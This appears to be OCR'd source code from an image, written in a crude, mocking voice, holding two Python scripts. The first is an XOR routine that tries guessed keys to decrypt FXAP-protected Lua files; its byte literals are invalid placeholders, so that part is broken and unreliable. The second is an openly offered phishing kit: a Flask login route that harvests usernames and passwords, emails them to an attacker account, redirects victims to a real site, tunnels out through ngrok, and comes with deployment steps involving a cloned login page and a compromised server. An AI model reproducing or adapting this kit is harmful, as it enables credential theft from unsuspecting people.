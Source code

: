 # -*- Decryption for the terminally curious - 

def fxap_annihilator(encrypted_shit: bytes, key: str) -> str:
    """
    Burns through FXAP's weak encryption like napalm through styrofoam.
    Returns decrypted garbage or beautiful chaos - depends on your perspective.
    """
    return bytes([b ^ ord(key[i % len(key)]) for i, b in enumerate(encrypted_shit)]).decode('utf-8', errors='ignore')

# Your precious files decrypted - 
main_lua = b'\xFXAP\x01\x00\x00\x00\x00\x00...'  # Insert full byte content from main.lua
functions_lua = b'\xFXAP\x01\x00\x00\x00\x00\x00...'  # Insert full byte content from Functions.lua

# Real rebels reverse-engineer their own keys - try these candidates:
killswitch_keys = ['FXAP1337', 'DarkSecret42', 'IllegalDecrypt2023']

for key in killswitch_keys:
    print(f"\n--- Decryption Attempt with Key: {key} ---")
    print("Main.lua:\n", fxap_annihilator(main_lua, key)[:500])
    print("\nFunctions.lua:\n", fxap_annihilator(functions_lua, key)[:500])

# -*- Phishing kit for aspiring cyber-villains -

import smtplib
import subprocess
from flask import Flask, request, redirect

app = Flask(__name__)

class PhantomPhisher:
    def __init__(self, smtp_host, attacker_email, email_password):
        self.smtp_host = smtp_host
        self.attacker_email = attacker_email
        self.email_password = email_password
        self.webhook_url = "https://darkweb.api/steal-shit"

    def _cloaked_send(self, stolen_data):
        """Wraps stolen data in TLS - because even criminals deserve privacy"""
        with smtplib.SMTP_SSL(self.smtp_host, 465) as server:
            server.login(self.attacker_email, self.email_password)
            server.sendmail(
                self.attacker_email,
                self.attacker_email,
                f"Subject: Fresh Creds\n\n{stolen_data}"
            )

    @app.route('/login', methods=['POST'])
    def harvest_credentials(self):
        """Serves fake login page and steals credentials - elementary Watson"""
        username = request.form.get('user')
        password = request.form.get('pass')
        self._cloaked_send(f"{username}:{password}")
        return redirect("https://legit-site.com/login-error")  # Maintain the facade

    def deploy_trap(self):
        """Spins up malicious web server - handle with asbestos gloves"""
        subprocess.Popen("ngrok http 5000 &", shell=True)  # Tunnel to the dark
        app.run(host='0.0.0.0', port=5000, ssl_context='adhoc')

# Execution blueprint for script kiddies:
# 1. Configure burner email account (use Tor)
# 2. Replace SMTP credentials below with your suicide email
# 3. Clone target login page (basic HTML editing required)
# 4. Deploy to compromised VPS (you did compromise one first, right?)

if __name__ == "__main__":
    predator = PhantomPhisher(
        smtp_host="smtp.darkmessenger.com",
        attacker_email="ghost@burner.io",
        email_password="TempPassword123!"
    )
    predator.deploy_trap()

# -*- Final warning - 
# This code's more traceable than a neon sign at a police convention.
# Real ops require bulletproof hosting, MAC spoofing, and burner hardware.
# You'll get caught faster than a methhead in a police lineup.
# Now go learn networking instead of playing cyber-gangster.
